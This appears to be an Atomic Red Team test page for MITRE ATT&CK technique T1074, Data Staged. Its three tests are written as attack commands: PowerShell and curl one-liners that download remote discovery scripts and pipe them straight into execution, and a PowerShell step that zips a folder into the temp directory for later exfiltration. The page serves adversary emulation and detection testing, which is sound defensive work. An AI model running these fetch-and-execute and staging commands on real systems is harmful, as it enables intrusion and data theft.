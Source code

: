 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows



#### Attack Commands: Run it with `powershell`! 
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/src/Discovery.bat') > pi.log
```





<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS



#### Attack Commands: Run it with `bash`! 
```
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/src/Discovery.sh | bash -s > /tmp/discovery.log
```





<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration.

**Supported Platforms:** Windows



#### Attack Commands: Run it with `powershell`! 
```
Compress-Archive -Path $PathToAtomicsFolder\T1074\bin\Folder_to_zip -DestinationPath $env:TEMP\Folder_to_zip.zip
```





<br/>
